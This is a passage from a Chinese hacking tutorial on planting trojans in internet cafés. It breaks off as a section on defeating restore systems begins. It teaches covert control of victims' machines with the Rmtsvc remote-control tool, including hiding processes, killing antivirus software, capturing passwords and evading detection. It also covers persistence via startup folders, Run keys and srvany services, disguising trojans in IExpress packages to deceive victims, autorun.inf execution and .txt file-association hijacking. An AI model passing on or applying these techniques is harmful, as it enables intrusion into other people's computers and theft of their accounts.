有时候系统或者应用软件运行缓慢或出现异常情况无法正常工作，这可能是程序的 DLL 文件的注册表项遭到破坏造成的。要知道不是所有的 DLL 文件都有备份，比如一些第三方应用程序。或者当 Windows 的文件保护功能失效的时候，你不妨试试重新注册 DLL 文件来解决问题。

注册 DLL 文件很简单，Windows 提供了一个命令行工具 Regsvr32 给我们，注册 DLL 文件的时候使用 `/i` 参数，比如 shdoclc.dll 文件遭到破坏了，我们可以这样修复它：`regsvr32 /i shdoclc.dll`，就这么简单！

## 4、永远的特洛伊

木马是什么？不用我再说了吧，我想这是每个上网的朋友都会感觉到敏感的词。现在盗号的事情太多了。当然木马不仅仅是盗号的工具，应该说盗号程序是对木马的一种扭曲。木马是特洛伊木马的简称，它就好像一个间谍一样潜伏在系统内部。不管出于什么目的，在网吧搞安全的朋友都有过中木马的经历。有很多朋友千辛万苦破解限制就是为了养一些好马。一个好的木马有以下几个特性：开机自启动、免杀、隐蔽性高，有的还有发信功能。本节作为本章的尾声，将以网吧为环境为大家讲解关于木马的种种，展现种植一个木马的全过程。

### 4.1 木马的使用

行动前当然要先挑一款木马了，这往往取决于你出于什么目的使用木马。对于盗号软件就不讲了，一般都是很傻瓜的设置，简单讲解一下原理吧，这里以盗 QQ 号的软件为例子。盗号软件在后台运行着时刻监视系统软件的运行情况，一旦它发现 QQ.exe 被运行了，马上开始记录在 QQ 登录框中用户输入的内容（当然是 QQ 号和密码啦！），然后经过一系列的处理把包含有 QQ 号和密码的信息作为邮件发送到一个电子邮箱中。这个 E-mail 是盗号者最初配置盗号程序时设定的，这样你的 QQ 号就被盗了……当然这是最简单的原理，现在的盗号技术和防范技术都在提高，实现起来远没有文中描述的这般简单。

这里将以远程控制软件为例讲解木马的简单使用，并将远程控制软件分为 C/S 和 B/S 两类。

**[什么是 C/S，什么是 B/S]**

C/S：两台甚至更多的计算机通信，从表面上看某种意义上可以说是软件与软件之间通信。一组可以完成网络通信的软件在各自存在的计算机上建立一个叫做套接字的东西，然后基于这个东西一方建立客户端（Client）而另一方建立服务器（Server）。通常是客户端发起通信请求而服务器响应请求并提供服务给客户端。C/S 也叫做 C/S 模型，一个完整的 C/S 模型软件有服务端程序和客户端程序。

B/S：其中的 B 是 Browser 的缩写，即浏览器。基于 B/S 模型的程序只有服务端，而使用浏览器，比如 IE 作为客户端来访问服务端。B/S 虽然比 C/S 小巧简单，但是稳定性和功能不如后者。其实我们平常听说到的 Webshell 也可以说是一种 B/S 程序，只不过它们不是可执行文件罢了。

传统的远程控制软件是基于 C/S 模型的，木马种植者在本地配置一个服务端，这其中包括木马启动方式、连接方式、连接密码等选项，这些都设置好后就生成一个 .exe 的服务端文件，然后把它传到你要控制的电脑上执行，再在本地使用客户端连接服务端以达到远程控制的目的。而时至今日大多数的远程控制软件也是基于 C/S 的，这类的木马具有代表性的是灰鸽子、PCSHARE 等，关于这些远程控制类的黑客程序的教程已经很多了，因此这里不再赘述，本节的焦点是一款基于 B/S 的远程控制软件。

## 4.1.1 超强B/S远程控制软件 Rmtsvc

笔者遇到的第一款 B/S 软件就是 Rmtsvc，并马上被它所折服。它是 yyt 开发的用于远程控制的免费黑客程序，其功能十分实用强大，在入侵中很方便，虽然其体积比较大但我仍然无法放下对它的喜欢，今天就让大家见识一下这款 B/S 远程控制软件的威力！

解压缩文件包，里面除了说明文件外有两个文件 `Rmtsvc.exe`、`msnlib.dll` 和一个文件夹 `webe`。这是 Rmtsvc 2.4.7 版本，其中 `rmtsvc.exe` 就是主程序，`msnlib.dll` 是扩展主程序的通过 MSN 控制的功能库文件，web 文件夹则是支持 Rmtsvc 具有 HTTP 文件管理功能的。和其他远程控制软件的服务端一样，直接运行主程序 rmtsvc.exe 就可以了，若要使用它的 HTTP 文件管理功能则 Web 文件夹必须和 rmtsvc.exe 在同一个目录下。


这里我在本地进行演示，既然 Rmtsvc 是 B/S 远程控制软件，我们就要在浏览器中使用它啦！打开 IE，在地址栏中输入 `http://127.0.0.1:7778`，就可以成功连接 Rmtsvc 的服务端了，如图 4-1-1。

Rmtsvc 的访问地址是 `http://IP:Port`，由于我们直接运行的主程序，所以其设置都是默认的：端口为 7778，用户密码为 123456，这在连接 Rmtsvc 出现的首页上也可以看到。


图 4-1-2 Rmtsvc 选项设置

在上面的文本框中输入 123456，在下面的框中输入右边的验证码就可以验证身份并成功登录了，Rmtsvc 会有欢迎界面欢迎你来使用它。这时候你就可以使用页面显示区域最上面的一排按钮来控制远程计算机了。

### a、更改 Rmtsvc 默认设置

首先我们来到 option（选项），Rmtsvc 目前是默认设置，因此我们得修改成自己的个性设置，以免被他人使用了。点击 option 后出现了如图 4-1-2 的界面。

我在图中已经把所有的选项都解释了，设置了新密码后，点击“重复新密码”右边的那个 Modify 就可以生效了，而其它设置比如端口之类的需要重启动一次才会生效。Rmtsvc 是以服务作为自启动方法的，因为我们刚才是直接双击运行的 Rmtsvc.exe，所以这里会出现 Start Control 的选项，说明它还没有注册为 Windows 的服务。把那个勾打上就可以将 Rmtsvc 安装成服务了，下次 Windows 启动的时候 Rmtsvc 也会自动启动了。

那个释放 inject.dll 文件的选项可选，这个文件用来完成以下任务：隐藏进程；模拟 Ctrl+Alt+Del 按键；显示密码框密码；监视 rmtsvc 运行异常，如果异常退出或被杀掉则自动重新启动；将配置信息写入 rmtsvc 程序本身。由于这个文件已经被查杀，你也可以在本地先释放这个文件，做了免杀后再传到内网上。Killed Program 是 Rmtsvc 的一个很有用的功能，它能监视系统中指定的进程，一旦发现进程中有这些程序的影子，马上杀掉它们，这种方法常常被用在对付一些杀毒软件和防火墙等安全防御产品上。

选项配置完成后重新运行 Rmtsvc 并点击 logo 重新登录，我们就可以开始进行远程控制了，首先来看 Pview 里的功能。


图 4-1-3 Pview 界面

### b、进程及系统信息查看

P 应该是 Process 吧，呵呵不知道猜得对不对。这个页面列出了计算机名、操作系统和当前登录用户以及进程等系统信息，如图 4-1-3。

我的操作系统是 WinXP，如果是 Windows 2000 的话，Rmtsvc 可以自动破解当前登录用户的密码，我们这和 Findpass 的实现原理是一样的吧！也许你发现了自己的鼠标会隔一段时间更新一下，是的，Rmtsvc 会自动更新进程列表，保证控制者获得最新的进程信息以及进程的 PID 和线程数等。点击其中一个进程，在右边的窗口中我们可以看到这个进程所在的文件路径以及加载的模块（即 DLL 文件）信息。在 Pview 中不止可以 view，还可以 Kill。选中你要杀掉的进程，然后点击右边 Kill 就可以终止这个进程了。不过可不要随便终止窗口程序哦，那样的话被控制方会发觉的。另外，在 Pview 页面的右上方竟然模拟了一个类似于任务管理器中的“CPU 使用记录”的动态窗口，Rmtsvc 真是很强！

### c、远程控制

转到 Spy++ 页面，这个就类似于屏幕控制了，如图 4-1-4。

我是在本机做的测试，因此显示的就是我当前屏幕的窗口了。貌似这个窗口是静态的，其实不然，当你运行一个新的应用程序的时候屏幕就会刷新，并且在窗口中点击按钮你会发现竟然可以直接屏幕远程控制！一个 B/S 程序做到这个地步不得不让人佩服！当然直接的屏幕控制太过暴露了，而如果你在 option 中成功释放了 inject.dll 文件，如果这时候被控制的朋友再输入密码的话，加密的密码会以明文显示在屏幕控制的窗口中！虽说不太实用，但出现这种现象本身的确让笔者感到很新奇。


在 spy++ 窗口的下面是一些控制选项，其中 Quality 是屏幕显示质量，我抓的图 4-1-4 的质量是默认的 Fair，的确很失败。当我选择为 Best 并点击下面的 Set 后，图像质量完全不同了，如图 4-1-5。

不过颜色还有一些丢失，呵呵已经不错了吧！我在本地测试速度当然快了，而当你真正进行远程控制的时候最好不要用太高的显示效果，这会影响你和对方的连接速度。

在最右侧的 Start 下拉菜单中，Rmtsvc 定义了一些常用的系统命令，我们可以直接点击使用之，比如关机、重启、启动任务管理器等。当然你也可以自定义运行的命令，选择那个 Run……，然后在弹出对话框的文本框中输入 CMD 命令，比如添加一个用户，如图 4-1-6。


注意这个命令的执行时会在对方的屏幕上闪过一个黑框，所以建议不要在这里执行命令。

### d、HTTP 文件管理

我们转到 Files 页面，这就是传说中的 HTTP 文件管理了，如图 4-1-7。

HTTP 文件管理好像资源管理器一样，在左面的窗口中我们可以切换盘符，在右面的窗口中可以进入某个目录，上面的一排按钮依次是文件上传、新建文件夹、回退、前进、向上、属性、刷新、删除、复制、剪切、粘贴和文件预览。进入了某个目录后，我们可以点击“文件上传”按钮上传文件，“属性”按钮查看文件属性，预览按钮查看文本格式的文件内容，如图 4-1-8、4-1-9。

在 Files 的 HTTP 文件管理中同样可以搜索文件，只不过搜索方法比较死板，搜索文件必须有扩展名，否则将只能搜索到文件夹或无类型文件或毫无结果。在左侧窗口的目录树上面有个“所有文件夹”，在右面的文本框中输入你要搜索的文件名然后点右边的搜索图标就可以了。如果你想下载或远程执行一个文件，可以直接双击它，然后 Rmtsvc 会让你选择你将进行什么操作，如图 4-1-10。默认的操作是下载，因为如果远程执行的话程序会以正常方式执行，这样很容易使对方产生怀疑，所以一般情况下也不在此打开任何文件。


### e、其它

在 Proxy 页面中可以把对方主机设置成一台代理，而在 Ftp&Telnet 中可以把对方设置成 FTP 服务器和 Telnet 服务器。如果你无法使用 HTTP 文件管理的话，使用 FTP 的文件管理和 Telnet 的终端控制也是不错的选择。vIDC 是一个端口映射程序，它已经被集成到了 Rmtsvc 中，使用 vIDC 可以很方便地实现端口转发。以上这些内容以及 MSN 的远程控制，还有前面没有提到的功能，大家参考 Rmtsvc 的帮助文件自己研究。Rmtsvc 是值得好好学习的一款远程控制软件。

### f、Rmtsvc 的命令行安装方式

Rmtsvc 还有一种安装方式，是命令行下的，这种安装方式在初期就可以定义好端口、密码等用户自己的信息。首先打开命令提示符，在“运行”中输入 cmd，确定，然后转到 Rmtsvc.exe 所在目录。这里我们要做的是把 Rmtsvc 安装成服务，更改默认端口和用户密码，其命令为 `rmtsvc -i -p port -k password`，图 4-1-11 是我的示例，我将端口设为 114，密码设为 nohack。`Remote Control Service installed.` 是安装成功的提示，这时候就可以使用 `rmtsvc -s` 来启动 Rmtsvc 服务了，然后就可以进行连接了。


## 4.2、木马的自启动

开机自启动应该是一款木马程序必备的功能，没有哪个受害者会好好地主动去运行你的木马程序。最好的方法就是在下次启动前做好准备工作，在系统启动的时候木马程序像其它系统文件或者应用程序一样自动启动。本节将讲解 Windows 下木马实现自启动的几种方法。


### 4.2.1、启动文件夹

启动文件夹算是已知的最早也是实现开机自启动的最简单的方法了，你只需把要自启动的文件放到启动目录中就可以了，启动目录的路径为 `C:\Documents and Settings\fornever\「开始」菜单\程序\启动`，其中的 fornever 是我当前的登录用户名，每个系统中存在的用户都有一个自己的启动文件夹，以实现在不同用户登录的时候启动不同的程序。而在 `C:\Documents and Settings` 目录下还有一个 All Users 目录，代表的是所有用户，在这个目录下的启动文件夹中的文件在任何用户登录的时候都会启动。


启动目录的路径是在注册表中定义的，对于当前登录用户来说启动目录是在这个项中指定的：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`，其中的键 `Startup` 的数值指定了启动目录的路径，如图 4-2-1。所有用户的启动目录在这个项下定义：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`，其中的键 `Common Startup` 的数值指定它的路径，如图 4-2-2。

这时候你也许会想，那这个启动文件夹是否可以自定义呢？答案是肯定的，修改前面提到的两个注册表键值就可以达到目的。比如我在 C 盘下建立了 test 文件夹，然后把所有用户的启动文件夹定义到这里，把 Common Startup 的键值改为 `c:\test`，就可以了，这时候放入 test 目录的所有文件在用户登录的时候都会自启动。自启动目录往往是管理员最先想到的启动程序的地方，而改变这个启动目录到其它位置，甚至把修改后的启动目录设置为隐藏属性，这些都是不错的提高自启动目录启动程序成功率的方法。

需要注意的是，放入的文件执行时最好不要弹出窗口或出现黑框，也不要把一个文件夹放入其中。这些都容易暴露。更好的伪装是双击后前台无明显反应。若修改了启动目录路径，原目录中的程序将无法自启动；要伪装得更好，可把原启动目录中的文件也复制到新建目录中。

### 4.2.2、利用注册表

Windows 中实现自启动的第二类常用方法是编辑注册表中的自启动项。很多程序（如杀毒软件、防火墙等）都通过这种方式实现开机启动。注册表中可实现启动的项较多，这里总结常见项。


- a、Run 键

Run 键通常指以下位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 与 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`。前者对所有用户生效，后者仅对当前用户生效。系统一般先执行 HKLM 下的 Run 项，再执行 HKCU 下的 Run 项。还可见位置：`HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`。


- b、RunOnce 键

RunOnce 与 Run 的区别是其下项目通常只执行一次，常用于安装过程中需要重启后继续执行的场景。常见位置：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce` 与 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`，同样一般先执行前者。


- c、其它键

`RunOnceEx` 常被描述为在特定系统中可用。示例路径：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx`。文中示例在该键下新建字符串值后，可在启动项监控工具中看到对应项。


还有两个经常被大家提到的键：RunServices 和 RunServiceOnce，它们项的路径被描述在 **HKEY_LOCAL_MACHINE**（**HKEY_CURRENT_USER**）\**SOFTWARE\Microsoft\Windows\CurrentVersion**，但是经过试验并未有自动的迹象，而 Autoruns.exe 中也确实没有它们的自动项，原因不明，可能是操作系统的版本问题吧！

### 4.2.3、利用服务实现自动

#### a、服务概述

服务——前面我们已经多次提到这个名词了，那究竟什么是服务呢？服务（现在不要联想现实生活中的“服务”，这是一个“全新”的概念）是 Windows 的一个重要概念，它为 Windows 实现很多功能而存在，从某种意义上说服务也是 Windows 实现自动的一种方法。现在感觉这个词有些抽象吧，那让我们来看看服务的表现形式吧！在“控制面板”中选择“管理工具”，在“管理工具”中选择“服务”就出现了系统中已有的所有服务的列表，如图 4-2-7。


双击其中一个服务打开该服务的“属性”，在“常规”选项卡中我们可以看到该服务的基本信息，如图 4-2-8。要注意的是一个服务有两个名称：服务名称和显示名称，一般我们在操作服务的时候使用的都是服务名称；描述中我们可以知道这个服务的功能，而在“可执行文件路径”中可以看到该服务对应的文件，从这里也可以看到服务并不是想象的那样很抽象，它也是需要实体文件支持的。这里我们也可以发现服务的执行可以带参数。在启动类型中，自动就是开机自启动，而手动的服务开机不会启动，需要由用户手工开启服务，而禁用就不明说了吧！要想服务可以开机自启动，其类型就必须设置为自动。我们可以使用下面的一排按钮启动或停止一个服务。


在“登录”选项卡中指定了运行该服务的是哪个用户，并且可以由用户自定义。其中有一个“允许服务与桌面交互”的复选项，这个选项将决定服务的可执行程序是否工作在后台，这非常重要！在“依存关系”选项卡中我们可以查看该服务依赖的服务与其它服务依赖此服务的情况，如图 4-2-9。如果被依赖的服务被停止了或运行异常，依赖的服务也将无法正常运行。

#### b、系统服务 DIY

由服务启动的程序几乎都是在后台运行的，服务的特性是即使一个应用程序具有图形界面，在其以服务方式运行以后也可以不让其显示了，而这正是我们想要实现的效果，也正是因为这个原因，服务被越来越广泛地用在了 Hacking 中，最普遍的就是运用在自动启动上，比如前面说过的 Rmtsvc 就是通过服务实现自启动的。而这也证实了 Windows 的服务可以由用户定义！这里我就要教大家如何制作服务，让这种实现自启动的方法走进寻常百姓家！


## 网吧破解新大陆

我们利用一个小工具 srvinstw.exe，它是一个图形界面的制作服务的程序，运行后如图 4-2-10。这里是选择安装一个服务还是卸载一个服务，我们当然选择安装。接着选择安装到本地计算机（Local Machine），然后设置服务名称（示例为 Fserver），再继续下一步。

这里最关键的是选择本地文件。制作成服务的可执行文件需要满足一定特性，一般程序不具备该特性。如果直接填写普通程序路径（如示例中的 forever.exe），启动时会失败，并出现错误提示。


微软提供了 srvany.exe 作为解决方案，它可以为任意程序提供服务外壳。将服务可执行文件路径设置为 srvany.exe 后继续。服务类型保持默认，账户选择 “System Account（系统账户）”。其中“允许服务与桌面交互”是重要选项。


该选项一般不要勾选。若允许服务与桌面交互，程序可能会在用户桌面弹出窗口并阻塞，导致服务启动后异常。继续“下一步”后选择服务启动类型：Automatic（自动）、Manual（手动）或 Disabled（禁用），示例选择 Automatic。


安装后可在“服务”中看到 Fserver，但它会很快停止。原因是 srvany.exe 本身不执行业务逻辑，只是提供服务宿主，需要把真实程序与该服务关联。


修改注册表路径：**HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services**。在 `Fserver` 项下新建 `Parameters` 子项，并在其中新建字符串值 **Application**，值数据填写目标程序路径（如 `c:\test\forever.exe`）。


做完这一切，大功告成，一个新的服务宣告诞生！这时候再到“服务”中启动 Fserver 服务，正常启动了吧！再到任务管理器中查看进程，如图 4-2-17。

看到了吧，Fornever.exe 执行了，并且还是系统进程呢！（用户名的一栏是 SYSTEM）一个服务就这样做好了，一点都不难吧！我的示例启动的是记事本，大家都知道它是窗口程序，但是服务启动后在前台确实没有任何反应，这都是前面设置“服务与桌面交互”的结果。大家可以自己尝试选上这个选项后重新启动服务的效果。如果你还想再编辑这个服务的话，参考 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services 下的其它服务的注册表键自己写吧！

### 4.2.4、文件捆绑与压缩

#### a、一般的文件捆绑

文件捆绑顾名思义就是把一个或多个文件“捆绑”在一起形成一个新的文件，执行这个新文件所有文件就一起被执行了。这种方法启动木马程序也很常见，通常是把它们和系统文件捆绑在一起，系统文件一执行，木马文件就执行了。

网上有很多这样的捆绑软件，笔者用得比较好的灰鸽子出品的万能文件捆绑机，它可以同时捆绑多个文件，如图 4-2-18。点击“添加文件”你可以增加更多的捆绑文件，并且万能文件捆绑机支持其它格式文件的捆绑，比如 .jpg 文件。要捆绑的文件选择完成后，点击“捆绑文件”然后自定义一个文件名就可以了。


#### b、微软自解压缩包制作工具 IExpress 的应用

其实 Windows 本身就自带了一个制作安装包的程序 IExpress，它可以把 N 个文件封装在一个文件中，然后进行安装并在安装过程中执行压缩包中的某个程序。这里我们就来学习一下微软的自解压缩包制作程序 IExpress 的使用方法。

IExpress 位于 %systemroot%\system32 文件夹下，因此我们在“运行”中输入 iexpress 启动程序，首先出现的是选择执行任务界面，共有两个任务可选：Create new Self Extraction Directive file 和 Open exist Self Extraction Directive file。我们当然选第一个，然后点击“下一步”，接下来选择制作木马自解压包的打包方式，如图 4-2-19。


它们分别是建立自解压并自动安装压缩包（Extract files and run an installation command）、建立自解压压缩包（Extract files only）和建立 CAB 压缩包（Create compressed files only）。我们要使用自解压并安装，所以选择第一项，点击“下一步”，来到“Package title”，再到“Confirmation prompt”“License agreement”等步骤。

在“Package files”中就要添加文件了，这就和我们前面捆绑文件时候一样了，点击“Add”按钮就可以选择文件了，如图 4-2-20。为了隐藏，这里最好添加几个正常的文件，最好是系统文件或者和系统文件有关的一些东西。


积，但是文件越多越能掩盖木马程序的存在啊！记得不要忘了加入木马程序，然后点击“下一步”。这里也很重要，是设置安装过程中和安装完成后执行的程序。我们要在表面上欺骗受害者，让他误以为自己安装的是正常文件，而在安装完成后却没有留意我们的木马程序执行了。我的示例 Notepad.exe 是正常的系统文件，在“Install Program”中就选择它，而在 **Post Install Command** 中则选择 forever.exe……


下一步，这里设置安装程序显示窗口的方式，从上至下依次为默认方式、隐藏、最小化窗口和最大化窗口，这里我们保持默认即可……下一步这里设置的是安装过程中出现的提示语句，这里你可以激活“Display message”并输入一个伪装性的提示语句，我这里就不要提示语句了，选择 **No message** 并来到下一步……

这里选择最后生成的自解压文件的路径和文件名，在“Option”中选择 **Hide File Extracting Progress Animation from User** 可以隐藏解压缩过程，这将有助于隐藏某些木马程序启动时弹出的命令提示符黑框……然后一直下一步直到完成，自解压文件就可以生成了。


自解压文件的制作过程完全是在命令提示符下完成的，生成的文件描述为“Win32 Cabinet Self-Extractor”……总的来说，IExpress 的功能还是比较完善的，使用起来也比较简单，很容易上手。

#### 4.2.5 来自 Autorun.inf 的攻击

前面我们已经对 INF 文件进行了较为详细的讲解，其实 INF 家族中还有一个特殊的成员……它就是 Autorun.inf。Autorun.inf 文件被用来自动运行光驱中的光盘，而且它也可以使其他硬盘自动运行文件……这种启动程序方法的特性给我们带来了很多。

### a. Autorun.inf 文件语法

作为一个特殊的 INF 文件，Autorun.inf 有自己特殊的语法和结构，它不需要 [Version] 节，却不可缺少 [Autorun] 节。这个节表示 Autorun 开始了，其下有这几个关键字：**Icon、Label、Open、ShellExecute 和 Shell**。

### a-1. ICON

由关键字意译可知它是控制驱动器图标的，它可以使用格式为 .ico、.bmp、.exe、.dll 的文件改变驱动器图标……它的基本用法为：**ICON=图标名[,序号]**。

```ini
ICON=NOHACK.ICO
ICON=FORNEVER.BMP
ICON=EXPLORER.EXE,1
```


如图 4-2-23 是我修改图标后的显示效果，其中 C、D、F 盘的图标依次是上面的语句指定的，E 盘为正常的没有修改图标的显示（是不是和 WinXP 的驱动器图标不一样啊，呵呵，我做了 VISTA 主题）。

### a-2. LABEL

中文译作标签，到驱动器上就是卷标了。Autorun.inf 文件可以指定驱动器的卷标，即使后期你更改了该驱动器的卷标，在表面上显示的也是 Autorun 文件指定的字符串。并且 Label 可以指定一个包括空格的字符串，使用格式为：`LABEL=STRING`，比如 `LABEL=AutorunTest`，就是图 4-2-23 的 C 盘的卷标了。

### a-3. OPEN

同其它 INF 文件一样，Autorun.inf 文件中的关键字也是不区分大小写的，写作 OPEN、open 或者 Open 都是可以的。这个关键字定义了双击盘符后执行哪个程序，用等号赋值，比如 `OPEN=FOR.EXE`。可以被执行的文件格式有 `.exe`、`.com`、`.bat`，其它类型则不允许。要想执行其它格式的文件，则需要用 start 命令指定或者使用下面将要讲到的 ShellExecute 命令。使用 OPEN 打开的文件可以指定路径和参数，比如 `OPEN=c:\windows\system32\ping.exe -a 192.168.0.1`。下面我给出一个 Autorun.inf 文件的完整示例，模仿 NOHACK 的光盘自动执行吧！


```ini
[AUTORUN]
ICON=NOHACK.ICO
LABEL=网吧·黑客
OPEN=START.EXE
```

### a-4. ShellExecute

它指定设备启用时运行的命令，也可以执行文件。其实 OPEN 也可以执行命令，不过和前者不同的是，ShellExecute 可以执行任意格式的文件，并且可以指定程序的路径和执行参数，它的功能要比 OPEN 强大很多，但是却用得很少，是没有需求的原因吗！它和 OPEN 的用法几乎一样，比如 `SHELLEXECUTE=START.EXE`，`SHELLEXECUTE=C:\WINDOWS\SYSTEM32\GPEDIT.MSC`。

### a-5. Shell

Shell 主要控制的是驱动器的右键菜单，它可以在右键菜单中添加一个命令并指定这个命令执行什么程序。它分为两部分：指定菜单文本和指定菜单执行的程序。它们对应的语句分别是 `Shell\关键字=文本` 和 `Shell\关键字\Command=命令行`。这两个语句分两行写，其中的关键字是用户指定的任意字符串，两个语句的关键字要相同。文本就是显示在右键菜单中的菜单命令，命令行就是菜单要执行的命令或者文件，它的执行文件类型和其它性质都和 OPEN 一样。我们来看一个例子：

```ini
[Autorun]
SHELL\FLAG=MENUTEST
SHELL\FLAG\COMMAND=C:\WINDOWS\NOTEPAD.EXE
```

将上面的语句写入一个 AUTORUN.INF 文件放入到 E 盘的根目录，然后在 E 盘上单击鼠标右键，如图 4-2-24。看到了吧，成功添加了“MENUTEST”菜单，点击它就打开了记事本。如果你想要菜单使用键盘的快捷键，可以在指定菜单的时候加入一个 `(&Z)`，比如“MENUTEST(&Z)”，这样右键菜单在被激活后按下 Z 键就可以选择“MENUTEST”菜单了。Shell 还有一种简单的写法，不用 `Shell\关键字=文本` 专门指定右键菜单，只用 `Shell\关键字\Command=命令行` 就可以。删除上面文件中的 `SHELL\FLAG=MENUTEST`，保存文件。当你再次在 E 盘上点击右键的时候会发现多了一个 FLAG 的菜单，而点击它就打开了记事本。

### b. Autorun.inf 文件的失效与生效

### b-1. Autorun.inf 的失效问题

上面我们学习的这些所有关键字在 Autorun.inf 中是无序排放的，只要在 `[AUTORUN]` 下就可以了。另外文件名只能是 autorun.inf，大小写无所谓，但是不能改名。也许有的朋友发现了自己电脑光驱中的驱动器可以自动播放，但到了本地硬盘中 Autorun.inf 却失效了，这是为什么呢？其主要原因来自注册表，几种设备是否自动播放在注册表中是有控制的，具体位置为：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`，其中有一个 DWORD 值 `NoDriveTypeAutoRun` 控制了哪些设备可以自动播放，其默认值为 16 进制的 95，对应 10 进制值为 149。那就让我们来看看它是如何控制设备自动播放的，首先来看一个表：

| 设备名称 | 第几位 | 设备用如下数值表示 | 设备名称含义 |
|---|---:|---:|---|
| DRIVE_UNKNOWN | 0 | 01h/1 | 未识别的设备类型 |
| DRIVE_NO_ROOT_DIR | 1 | 02h/2 | 没有根目录的驱动器（Drive without root directory） |
| DRIVE_REMOVABLE | 2 | 04h/4 | 可移动驱动器（Removable drive），比如 U 盘 |
| DRIVE_FIXED | 3 | 08h/8 | 固定的驱动器（Fixed drive），即本地硬盘 |
| DRIVE_REMOTE | 4 | 10h/16 | 网络驱动器（Network drive） |
| DRIVE_CDROM | 5 | 20h/32 | 光驱（CD-ROM） |
| DRIVE_RAMDISK | 6 | 40h/64 | RAM 虚盘（RAM Disk） |
| 保留 | 7 | 80h/128 | 未指定的驱动器类型（Not yet specified drive disk） |

其中重要的是代表设备的那些数值，斜线前面的值是 16 进制，后面是对应 10 进制的。NoDriveTypeAutoRun 的值是这些设备的值加和得到的，如果要启用自动播放（这时候 Autorun.inf 文件有效），就把设备的值设置为 0；如果要禁用自动播放，则将设备的值代入到加法中。比如默认设置下 NoDriveTypeAutoRun 的十进制值 149=1+4+16+128，即禁用了第 0、2、4、7 号设备的自动播放功能。明白了吧，要禁用哪个设备就把这个设备的值代入加法，最后得到的结果就是 NoDriveTypeAutoRun 的值了，要注意的是不要混淆十进制和十六进制。

而有时候就是把本地硬盘的 Autorun 功能启用了，我们还是无法在双击盘符后执行程序，这又是为什么呢？这种情况多出现在 WinXP 中，尤其是 SP2 版本中。笔者自己的猜测是 WinXP 为了安全修改了某些设置，使得原来很容易实现的 Autorun 变得相对复杂了。以前就说一次，笔者在 Win98 上把 Autorun.inf 文件放到了一个本地硬盘的根目录下，这个文件中只有一句 OPEN，双击盘符后如我所愿执行了程序。而在 WinXP 中，往往这种方法无法执行成功。要知道成功应用了 Autorun.inf 文件后，双击盘符后执行了指定的程序或命令，但是无法进入该驱动器。如果我们只用 OPEN 设置设备启动时执行的程序（用 OPEN 是最常用的方法），WinXP 下双击盘符还会和往常一样直接进入驱动器；而如果在 Autorun.inf 文件中用了 ICON、LABEL、SHELL 语句，在盘符上还是可以有所表现的：图标、卷标会被修改，右键菜单也会添加，但是双击盘符 OPEN 指定的程序就是不执行，让人很郁闷。

其实不是 Autorun.inf 文件失效了，而是 OPEN 语句失效了。在笔者的实验中，目前只针对本地硬盘和移动硬盘，光盘的 OPEN 语句仍然可用。我想我刚才猜对了，呵呵！既然 OPEN 语句失效了，那我们就用 ShellExecute 执行程序就可以了，或者用 `SHELL\关键字\command` 也可以。它不仅可以添加右键菜单，而且在文件中没有 OPEN 和 ShellExecute 的时候，Shell 就替代了它们的角色，在双击了盘符后会执行 command 指定的程序或命令。OPEN、SHELLEXECUTE 和 SHELL 这三个语句存在一些组合，不同的组合会产生不同的效果。图标和卷标是一定可以生效的，有 SHELL 语句的话则一定有右键菜单，但是否执行就有区别了。当只有 SHELL 和 SHELLEXECUTE 的时候自动执行后者指定的程序，而只是和 OPEN 的“两人组合”自动执行的功能都将失去；当三者都指定后，双击盘符自动执行的是 SHELL 指定的程序或命令。

另外，不同的操作系统和不同文件格式的错综组合也可能导致 Autorun 文件的执行功能失效。由于条件原因，笔者不能一一尝试。上述实验结果的环境是 Windows XP Professional SP2，NTFS 和 FAT32 文件系统下均成立。

### b-2. Autorun.inf 所做修改的生效问题

Autorun.inf 文件对设备所做的修改不是即时生效的，重新运行 explorer.exe 可以使自动执行和右键菜单生效，而卷标和图标似乎重启后才可以生效。不过笔者倒是无意间发现了一个更简单的生效方法，使所有修改同时生效哦！不卖关子了，其实修改卷标就可以了，哈哈，没有想到吧！在 Win9x 中卷标只能在属性中修改，而在 WinXP 中，我们直接用 F2 重命名驱动器就可以了，然后 Autorun 文件所做的所有修改就都会生效了。要不是发现了这个方法，我的试验岂不是相当困难了，又重启运行 Explorer.exe 又是再启动。如果你在 Autorun 文件中用 Label 指定了卷标，那即使修改了卷标，表面显示也还是 Label 指定的，但是在属性中就可以看到你修改的卷标了，如图 4-2-25。


#### 4.2.6 修改文件关联

文件关联大家都不陌生了吧，打开一个 .txt 格式的文本文件，就打开了记事本，因为后缀 txt 关联的应用程序是 notepad.exe。总的来说，文件关联就是管理在用户打开一个文件的时候用什么程序加载和处理这个文件的一种方法。修改文件关联实现启动是很多病毒用的方法，这里我重现这个过程。

首先在资源管理器的“工具”菜单中选择“文件夹选项”，然后来到“文件类型”选项卡并找到“TXT 文本文档”，如图 4-2-26。点击下面的“高级”，然后在弹出对话框的操作中双击“open”，就出现了如图 4-2-27 的对话框。


将“用于执行操作的应用程序”中的 `c:\windows\notepad.exe` 修改为你的木马程序的全路径，这样用户只要打开一个文本文档就会执行你的木马了……具体到注册表位置是 `HKEY_CLASSES_ROOT\txtfile\shell\open\command`，如图 4-2-28。

### 4.3 突破网吧的还原系统

这里的还原并不是 Windows XP 自带的那个还原功能，而是网吧中普遍存在的还原卡和还原类软件……提到还原类产品，这里要理解一个名词：还原点。

> 【什么是还原点】  
> 还原点就是一个被还原系统保护的分区的一个状态……还原点是固定的。

最初认识“还原点”这个词是在看还原精灵帮助文件的时候……下面我们将分别讲解冰点还原和还原精灵的破解以及转存方法。

#### 4.3.1 冰点还原的破解与利用

### a. 冰点简介

